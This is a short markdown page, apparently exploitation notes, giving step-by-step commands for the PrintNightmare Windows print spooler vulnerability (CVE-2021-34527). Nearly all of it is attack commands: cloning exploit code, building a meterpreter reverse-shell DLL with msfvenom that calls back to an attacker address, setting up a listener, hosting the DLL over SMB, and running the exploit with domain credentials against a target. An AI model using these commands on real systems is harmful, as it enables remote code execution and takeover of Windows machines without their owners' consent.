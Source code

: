 # \[CVE-2021-34527] - PrintNighmare

## Exploitation

```bash
pip install pyasn1

git clone https://github.com/tryhackme/CVE-2021-1675.git 
git clone https://github.com/cube0x0/impacket
python3 -m pip install .
```

### msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 

# msfconsole:
#    use exploit/multi/handler
#    set payload windows/x64/meterpreter/reverse_tcp
#    set lhost VALUE 
#    set lport VALUE
#		run -j
#		jobs
```

### Scripts

```bash
smbserver.py share /root/Desktop/share/ -smb2support
```

```bash
rpcdump.py @10.10.133.215 | egrep 'MS-RPRN|MS-PAR'
```

```bash
python3 CVE-2021-1675.py DOMAIN-FQDN/username:password@DOMAIN-IP '\\192.168.0.100\share\malicious.dll
```
